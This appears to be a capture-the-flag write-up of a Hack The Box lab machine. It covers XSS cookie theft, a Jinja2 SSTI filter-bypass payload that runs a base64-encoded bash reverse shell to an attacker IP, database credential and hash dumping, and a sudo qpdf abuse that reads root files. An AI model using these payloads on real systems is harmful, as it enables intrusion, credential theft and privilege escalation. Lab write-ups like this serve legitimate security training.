

## Table of Contents

## Reconnaisance

Always start out with your `nmap`.


Our scan tells us port 22 and 80 are open. As usual, we're skipping port 22 and jumping right to port 80. On a normal engagement, you would want to check port 22 anyway. Maybe you can get away with some low hanging fruit like weak passwords or something. Anyway, moving on.

## Enumeration - HTTP (Apache httpd 2.4.52)

If we navigate to the web page, we see it's using a vhost name. We add it to `/etc/hosts` and carry on.


There's also a `/quote` page


And a login page


_I accidentally cut off the address bar here._

We can try to run `sqlmap` on the login page to see if we can get a SQL injection. But after running for some time, it doesn't appear to be vulnerable. We can keep moving right along with directory enumeration with `gobuster`.


It tells us what we mostly already found out from checking manually, but interestingly there is a `/dashboard` that redirects back to `/`. But we can go to the `/quote` page and fire up `Burp` to capture a request and see if this is vulnerable to XSS.


Using information obtained from [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#retrieve-cookies), I finally landed on some version of:

```javascript
/?c="+document.cookie>
```

My version looked something more like

```javascript

```

This didn't initially work just sending through Repeater so I had to rethink and tried encoding different things and eventually landed on

```javascript
&email=13%40htb.com
```

This worked. Ignore the weird request parameters here, I'm not entirely sure what happened with this screenshot 🤔


And after sending it in Repeater, we did get the session cookie


I didn't use any browser extensions or anything here, though I probably should have. I initially added this to the `/dashboard` path in the Developer Tools under cookies for `capiclean.htb` but I kept having problems with getting redirected back to `/` for some reason. So I researched some on the `Path` attribute for cookies and found that it determines the _path_ (crazy, right?!) that the cookie is valid for. I figured `/dashboard` should have worked, but since it wasn't I stuck `/` in and it started working no problem between page changes and wasn't redirecting me anymore.


Now, if we navigate to `/dashboard`, we aren't redirected back to `/` and instead are taken to another page.


There's a few links on the page that we can go through one by one to see what they are. The first is the "Generate Invoice" page that has us entering some information about seemingly where the cleaning took place to generate an invoice for it.


And then there's a Generate QR page that has the hint of adding in an invoice ID


Then there's an "Edit Services" page which didn't seem too interesting.


And finally a "Quote Requests" page that was blank for me.


The first two look fairly interesting and since the QR Generator page has fewer inputs, that's where I started. I first captured what a normal request looks like in `Burp`.


If I'm not going too fast and forget, I like to go through what everything does with normal use. That way, it's easier to tell what _abnormal_ use looks like.

If we turn `Burp` Intercept off and look what the page does under normal use, the page doesn't do anything special. You enter an `id` and the server seemingly processes it somehow then reloads the form.


I try to enter a simple XSS Payload with a script alert. That doesn't work so I move on to the Invoice Generator.

Again, sending a basic request, we get back a response with an Invoice ID.


The invoice ID I got back initially was **1791070181**. Probably randomly generated, but we're still getting somewhere! This is starting to make more sense. In the QR Generator, it's expecting an invoice ID, which is generated from this page.

I enter in the invoice ID into the QR Generator page


I just click submit on the `qr-link` input to see what happens and it generates an invoice. Pretty neat.


Not sure what's up with that math, but alright. It filled out a PDF with some information based on the details we had provided in the invoice.

Looking back at the QR Code Link that was generated earlier, we can see that after we entered the invoice ID, it output some text on the page. Sometimes this is a good indication that the site is using some templating engine to generate dynamic text. In this case, it generated a URL with our invoice ID at the end. So I start testing for Server Side Template Injection (SSTI). The [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection) page for SSTI does a really good job explaining what it is, how it works and what some vulnerable code would look like. The example provided uses Jinja and is almost exactly what is happening here with our request.

First we test normal use


Then we test the `qr_link` parameter for SSTI.



And with a simple payload of `{{7*7}}`, we can see that the page is vulnerable because ti read it, and executed it for us. From reviewing HackTricks, it looks like it's using `Jinja` as the templating engine.

More evidence of the vulnerability


Now that we know the web app is vulnerable to SSTI, we can create our reverse shell payload.

Using a modified payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) under **Server Side Template Injection > Jinja2 - Filter Bypass**, the very last one listed under this heading is a bypass for all the most common filters ('.','\_','|join','[',']','mro' and 'base').

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

The [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) entry from the creator of this bypass also does a good job explaining.

We modify this to:

```python title="Full Payload"
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5f
getitem\x5f\x5f')
('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')
('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')("echo+-
n+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMjQvMTMzNyAwPiYx%3d%3d+|+base64+
-d+|+bash")|attr('read')()}}
```


_I did attempt to run SSTImap which I found on HackTricks, but I didn't go too deep into it since the first attempt failed. I'll give this another shot in a future machine._

After the `echo`, it's a base64 encoded string of a simple bash reverse shell (obtained from [revshells](https://revshells.com). In the above screenshot, you can see it executes successfully, and we get foothold.

## Foothold

We see that we're the `www-data` user, which generally has very few privileges. But in our home directory, we see an `app.py`. If we just `cat` it out, we find some database credentials. This should let us connect to the database as `www-data` in our reverse shell and dump the tables.


**User**: `iclean`
**Password**: `pxCsmnGLckUb`

```bash
mysql -h 127.0.0.1 -u iclean -p capiclean
```


```txt
admin:2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa
```

We could try hashcat with these, but since they don't look salted, we can try another resource, [CrackStation](https://crackstation.net).


And it identifies a result for our `consuela` user, `simple and clean`. Interesting password.

## Privilege Escalation

With the password in hand, it's just a matter of using SSH to login.


From here, we can enumerate using `sudo -l` that tells us `qpdf` is able to be run as root. This is an unusual binary that isn't installed by default. I suspect that this is the binary that's being used to generate the Invoice PDF files that we saw earlier.

Reviewing the docs for `qpdf` proved quite difficult, but we eventually manage to run a command that works to get the `root.txt` from `/root`.

We run the folllowing command and `cat` out the output txt file.

_Using just `cat` may not give you the below output and I wish I took better notes here. If `cat` does not work, use `strings`. The flag is in the output._

```bash
sudo qpdf --empty /tmp/root.txt --qdf --add-attachment /root/root.txt --
```


## Conclusion

This was a really fun medium machine that
